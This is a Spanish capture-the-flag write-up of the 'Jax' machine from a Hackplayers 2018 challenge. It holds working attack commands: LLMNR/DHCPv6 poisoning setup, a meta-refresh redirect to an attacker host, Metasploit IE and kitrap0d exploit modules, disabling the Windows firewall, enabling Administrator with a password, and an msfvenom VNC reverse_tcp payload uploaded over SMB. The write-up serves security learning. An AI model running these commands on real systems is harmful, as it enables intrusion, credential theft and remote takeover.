








# Hackplayers 2018 - JAX

Máquina "Jax": 10.42.0.152

```
$ nmap -sV 10.42.0.152
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
```

Esta máquina solo expone el servicio IIS que son visibles desde el exterior. Después de realizar pruebas de fuzzing con diccionarios no se encuentran archivos ocultos en el servidor web.

Si abrimos Wireshark, habrá un poco de tráfico de transmisión de Jax, como LLMNR, NBT-NS y DHCPv6.

Usando la herramienta *Responder* podemos intentar envenenar peticiones LLMNR y NBT-NS, pero esto no nos dará ninguna conexión SMB o HTTP.



Intentamos montar un servicio DHCPv6 utilizando *dnsmasq* y habilitamos `IP forwarding` en nuestra máquina.

```
$ ifconfig tap0 inet6 add 1234::1/64
$ cat dnsmasq.conf
bogus-priv
interface=tap0
dhcp-range=::100,::1ff,constructor:em1
enable-ra
dhcp-option=option6:dns-server,[1234::1]
log-queries
log-dhcp
$ sysctl -w net.ipv6.conf.all.forwarding=1
$ sysctl -w net.ipv4.ip_forward=1
$ iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

En menos de un minuto, Jax envía una solicitud DHCPv6 y la asignó la dirección ip `1234::26b`.



Se tarda mucho tiempo en que se produzca un tráfico de solicitud de difusión LLMNR para WPAD, lo que nos permite obtener el hash NetNTLMv2 del usuario *Ihacklabs* y obtener todo el tráfico HTTP desde ese momento. El resultado de romper este hash es una contraseña vacía.



En el tráfico interceptado por Wireshark, aparece una solicitud HTTP a la máquina Sammy.

```
http://10.42.0.153/wordpress/cepheus.html
```



Aunque se encontró la solicitud HTTP con Responder, es mucho más fácil realizar un ataque de envenenamiento ARP a Jax para interceptar todo su tráfico.

El archivo `cepheus.html` se encuentra en la máquina *Sammy* a la que hemos accedido anteriormente, pero en el caso de que no se pueda acceder a esta máquina, habría que utilizar un ataque MiTM.

Si observamos los logs de Apache en Sammy, veremos que la solicitud se envía cada 5 minutos y el *User-Agent* corresponde a Internet Explorer y Windows 7.

```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

Modificamos este archivo para realizar una redirección y reenviar la solicitud a nuestra máquina `10.41.0.201`.

```
<meta http-equiv="refresh" content="0;URL='http://10.41.0.201/'" />
```

Existen algunas vulnerabilidades en los exploradores de Internet Explorer 8 en metasploit, muchas de las cuales requieren que Java esté instalado en la máquina de destino, por lo que podemos renunciar a dichos vectores de ataque. El más adecuado para nuestro escenario debe ser "MS11-003 Microsoft Internet Explorer CSS Recursive Import Use After Free", si ha leído la descripción de esta vulnerabilidad, encontrará que esta vulnerabilidad requiere la versión .NET 2.0.50727, esta versión y User-Agent. Lo mismo es cierto.

```
This module exploits a memory corruption vulnerability within Microsoft's HTML engine (mshtml). When parsing an HTML page  containing a recursive CSS import, a C++ object is deleted and later reused. This leads to arbitrary code execution. This exploit utilizes a combination of heap spraying and the .NET 2.0 'mscorie.dll' module to bypass DEP and ASLR. This module does not opt-in to ASLR. As such, this module should be reliable on all Windows versions with .NET 2.0.50727 installed
```

### Exploit

```
use exploit/windows/browser/ms11_003_ie_css_import
```



Cuando el navegador es redirigido y visita nuestra pagina con el exploit conseguimos una shell de meterpreter en la maquina y podemos leer la flag en el escritorio del usuario *Ihacklabs*.


### Escalada de privilegios

Usamos el siguiente exploit para elevar privilegios en la máquina

```
use exploit/windows/local/ms10_015_kitrap0d
```




### Desactivar el cortafuegos

Desactivamos el firewall para poder acceder a la máquina de forma remota.

```
netsh firewall set opmode mode=disable
```

Una vez desactivado, tenemos acceso a los siguientes puertos y servicios.




### Activar el usuario "Administrador"

Activamos el usuario administrador y cambiamos la contraseña.

```
net user Administrator Patatas123 /active:yes
```


### Acceso SMB winexe.

A partir de este momento podrémos utilizar winexe/psExec para acceder a la máquina a través de SMB sin necesidad de utilizar el exploit de navegador en el caso de que perdamos la conexión.




### Habilitar RDP

Se intentó habilitar el servicio RDP, pero al utilizar licencia de Windows Home, este servicio no está disponible.


### Acceso por VNC

Generamos un ejecutable y lo subimos a través de SMB. Lo ejecutamos y tenemos una sesión de VNC en la máquina Jax.

```
$ msfvenom  -p windows/vncinject/reverse_tcp LHOST=10.42.0.201 LPORT=4445 -f exe -o vnc.exe
$ smbclient '//10.42.0.152/C$' -U 'administrator%Patatas123'
put vnc.exe
```


### VirtualBox

El siguiente paso del reto es resolver una prueba de exploiting en una máquina virtual de VirtualBox.

Lo mas fácil es arrancar la máquina como root modificando el grub

```
linux .... init=/bin/bash
```


